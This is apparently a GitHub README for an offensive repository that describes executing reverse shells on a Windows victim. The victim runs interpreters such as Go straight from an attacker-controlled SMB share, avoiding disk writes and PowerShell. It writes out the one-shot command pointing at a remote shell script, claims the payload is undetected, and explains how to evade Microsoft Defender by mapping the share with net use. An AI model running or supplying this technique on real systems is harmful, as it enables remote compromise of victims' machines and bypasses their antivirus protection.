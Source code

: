 # One-Shot-Shellz
## Abusing Remote Windows SMB Shares to Get Reverse Shells In ~~Any~~ Some Programming Languages

This is my collection of ways to Execute Reverse Shells on a Victim Windows Host not using PowerShell or touching disk with an .exe.

More will be added as and when I have the time to research it.

The process is extremely simple.

1. Have a Windows Victim where you can run commands
2. Have a Windows Attack Box with your Programming Environment of choice - Python Java and Go are the only ones I have tested so far
3. Have a Kali Box or NCat on your Windows Attack Box to catch the Reverse Shell
4. Share the Folder where your Python/Java/Go.exe Application is
5. Have your Reverse Shell script also in the same folder
6. Run your one shot command in CMD/PowerShell i.e with Go it is `\\192.168.59.130\Go\go.exe run \\192.168.59.130\Go\shell.go` where `\\192.168.59.130\Go\` is the Attacker Controlled Remote Share and `run` for `go run` and `\\192.168.59.130\Go\shell.go` is the Reverse Shell Code.

  ![image](https://user-images.githubusercontent.com/130473605/235157805-16805cb8-0019-44a7-acb2-4717a273c60a.png)


7. Sit back and execute Go on a Windows Victim Host that doesnt have it installed.

**NB - Give it time, can take a while to drop in**

![image](https://user-images.githubusercontent.com/130473605/235159127-c5551ddd-07b3-408e-baa7-ec45869b56ab.png)

**NBNB - shell.go is FUD @ 28/04/2023**

![image](https://user-images.githubusercontent.com/130473605/235163241-a43353c0-f538-4b6b-ad3e-4943631242ec.png)


## Defender

According to the Windows Documentation, Defender wont scan User-Level Mapped Shares i.e if you use `net use g: \\192.168.59.60\Go /USER:user Password!` it wont scan and therefore wont attempt to delete the files on the remote share. It can however pick a script up when attempting to execute. Network Shares are scanned. Just something to keep in mind. https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/configure-advanced-scan-types-microsoft-defender-antivirus?view=o365-worldwide

![image](https://user-images.githubusercontent.com/130473605/235164338-683ff6a4-e68d-4b53-9d40-d1a274310c1f.png)
